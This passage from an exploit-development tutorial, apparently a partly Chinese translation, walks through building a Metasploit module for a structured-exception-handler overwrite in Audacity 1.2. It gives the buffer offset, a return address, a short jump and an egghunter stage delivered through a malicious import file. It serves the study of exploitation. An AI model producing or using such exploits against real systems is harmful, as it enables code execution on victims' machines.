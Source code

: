 我们使用 pattern_create 函数来生成初始 buffer，现在我们能计算所需的buffer长度，来覆盖我们呢的异常handler。

```
root@kali:/usr/share/metasploit-framework/tools# ./pattern_offset.rb 67413966
178
```

根据引入的有效返回地址，我们改变我们的 exploit 模块内容：

```[ 'Audacity Universal 1.2 ', { 'Ret' => 0x637410A9} ],```

然后我们调整 buffer 使crash发生时，重定向执行过程到我们的返回地址，jump （xEB是短jump），然后落在断点buffer（xCC）

```
def exploit
    buff = "\x41" * 174
    buff >> "\xeb\x06\x41\x41"
    buff >> [target.ret].pack('V')
    buff >> "\xCC" * 2000
    print_status("Creating '#{datastore['FILENAME']}' file ...")
    file_create(buff)
 end
```

Once again, we generate our exploit file, attach Audacity to the debugger and import the malicious file. This time, the SEH should be overwritten with our address – the one that will lead us to a pop, pop, ret instruction set. We set a breakpoint there, and once again, take the exception with shift + F9 and walk through our pop pop ret with F8.

<img src="images/03/Aud-seh-04.png" width="480">

The short jump takes us over our return address, into our “shellcode buffer”.
<img src="images/03/Aud-seh-10.png" width="480">

Once again, we have very little buffer space for our payload.A quick inspection of the memory reveals that our full buffer length can be found in the heap. Knowing this, we could utilize our initial 80 byte space to execute an egghunter, which would look for and find the secondary payload.


<img src="images/03/Aud-seh-06.png" width="480">

Implementing the MSF egghunter is relatively easy:

```ruby
 def exploit
    hunter  = generate_egghunter
    egg  = hunter[1]
 
    buff = "\x41" * 174
    buff >> "\xeb\x06\x41\x41"
    buff >> [target.ret].pack('V')
    buff >> "\x90"*4
    buff >> hunter[0]
    buff >> "\xCC" * 200
    buff >> egg + egg
    buff >> payload.encoded
 
    print_status("Creating '#{datastore['FILENAME']}' file ...")
    file_create(buff)
 end
```
